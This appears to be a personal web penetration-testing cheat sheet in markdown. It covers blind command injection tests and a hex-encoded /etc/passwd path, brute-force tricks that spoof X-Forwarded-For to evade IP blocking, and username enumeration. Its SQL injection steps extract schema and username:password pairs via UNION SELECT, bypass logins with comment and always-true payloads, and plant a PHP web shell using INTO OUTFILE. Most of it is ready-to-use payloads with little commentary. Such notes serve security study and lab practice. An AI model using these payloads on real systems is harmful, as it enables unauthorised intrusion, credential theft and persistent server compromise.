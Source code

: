 ## Command injection
- blind: no output, test with ping/sleep/timeout(win) || force output > etwas
  - curl http://website/command
- verbose: output/feedback
- $payload = "\x2f\x65\x74\x2f\x70\x61\x73\x73\x77\x64"

## Authentication
- Brute force: 
  - in Header ==> **X-Forwarded-For**: [IP] ==> avoid IP blocking
  - intercalate correct login AND brute force (intruder)

- Blocked account
  - enumerate username until valid one ==> NULL payload for password + several tries until get different response
  - try password with these usernames ==> grep warning for incorrect passwords

## DATABASE

### Steps
- Insert code, if not crash = injection
  - parameter=value' 
  - parameter=value' ORDER BY [#_columns] = try/error
- find total columns: UNION SELECT NULL,NULL,NULL
- find name of db: UNION SELECT NULL,NULL,database()
- find tables: UNION SELECT NULL,NULL,table_name from **information_schema.tables** WHERE table_schema = 'DB name'
- find columns in table: UNION SELECT NULL,NULL,column_name FROM **information_schema.columns** WHERE table_name= 'Table name'
- find data: UNION SELECT NULL,NULL,group_concat(column,column,column) from table_nae

- Column_name known
  - aa' field=(COMMAND),field='

- Bypass login: 
  - admin'-- [everything here is a comment and will be ignored]
  - or 1 = 1'-- ==> will always return true
  - header:  X-Forwarded-For: IP
  
- Write file
  - SELECT "<?php system($_GET['cmd']); ?>" into outfile "PATH/TO/SQL"

### UNION
- join two or more tables + number o columns and data type muss be equal
- 'UNION SELECT NULL,NULL...-- - ==> until success to find number of columns
  - NULL = compatible with all data type
- 'UNION SELECT column1,column2 FROM table_name-- -
- find db = '0 union 1,2,database()-- -
- find tables = '0 union select  1,2,group_concat(table_name) FROM information_schema.tables where table_schema='db_name'
  -  information_schema = info about all databases and tables
- find columns: 0 union select  1,2,group_concat(column_name) FROM information_schema.columns where table_name= 'table_name'-- -
- content: '0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
